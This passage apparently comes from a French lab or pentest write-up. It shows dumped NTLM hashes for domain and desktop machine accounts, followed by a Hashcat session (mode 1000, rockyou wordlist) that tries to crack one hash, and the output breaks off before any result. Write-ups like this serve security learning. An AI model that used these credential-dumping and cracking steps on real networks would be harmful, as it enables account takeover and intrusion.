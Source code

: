 ```powershell
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : add85c23b40ea2f82d1401e93afecf2c

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

---

#### Cracking des hashes avec Hashcat

**Préparation du fichier de hash :**

```bash
echo "64f12cddaa88057e06a81b54e73b949b" > hash.txt
```

**Cracking avec Hashcat :**

```bash
┌──(omnimessie㉿omnimessie)-[~]
└─$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-12th Gen Intel(R) Core(TM) i5-12450HX, 2187/4374 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

```